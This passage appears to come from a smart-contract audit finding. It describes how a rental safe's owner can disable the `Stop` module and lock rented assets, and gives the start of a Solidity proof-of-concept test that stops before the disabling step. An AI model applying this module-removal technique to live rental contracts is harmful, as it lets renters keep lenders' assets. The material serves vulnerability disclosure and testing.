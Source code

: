 This means that the safe owner will not be able to disable the last module they added, but more importantly, they will be able to remove the `Stop` contract as a module, which is added on safe creation. The `Stop` contract is responsible for retrieving rented assets from a wallet contract once a rental has been stopped, and transferring them to the proper recipient. If it is removed from the safe modules, all rented assets will be locked in the safe.

### Proof of Concept
We can validate the vulnerability through an additional test case for the `StopRent.t.sol` test file. This test case will simulate the exploit scenario and confirm the issue by performing the following actions:  
1. Create and finalize a BASE order with Alice as the offerer.
2. Create and finalize an order fulfillment with Bob as the fulfiller.
3. Whitelist a new address to be added as a module by rental safes.
4. Enable the new module on Bob's safe.
5. Disable the Reclaimer module by calling `disableModule(prevModule, module)`.
6. Attempt to stop the rental, which should fail because the Stop contract isn't a module anymore.

```solidity
import {
    gnosis_safe_enable_module_selector,
    gnosis_safe_disable_module_selector
} from "@src/libraries/RentalConstants.sol";
import {MockTarget} from "@test/mocks/MockTarget.sol";
import {SafeUtils} from "@test/utils/GnosisSafeUtils.sol";

    function test_Vuln_CanRemoveReclaimModule() public {
        // create a BASE order
        createOrder({
            offerer: alice,
            orderType: OrderType.BASE,
            erc721Offers: 1,
            erc1155Offers: 0,
            erc20Offers: 0,
            erc721Considerations: 0,
            erc1155Considerations: 0,
            erc20Considerations: 1
        });

        // finalize the order creation
        (
            Order memory order,
            bytes32 orderHash,
            OrderMetadata memory metadata
        ) = finalizeOrder();

        // create an order fulfillment
        createOrderFulfillment({
            _fulfiller: bob,
            order: order,
            orderHash: orderHash,
            metadata: metadata
        });

        // finalize the base order fulfillment
        RentalOrder memory rentalOrder = finalizeBaseOrderFulfillment();

        // ------- Identical to existing "test_StopRent_BaseOrder" until here -------
 
        address safe = address(bob.safe);
        MockTarget mockTarget = new MockTarget();

        // impersonate the admin policy admin
        vm.prank(deployer.addr);
        // enable this address to be added as a module by rental safes
```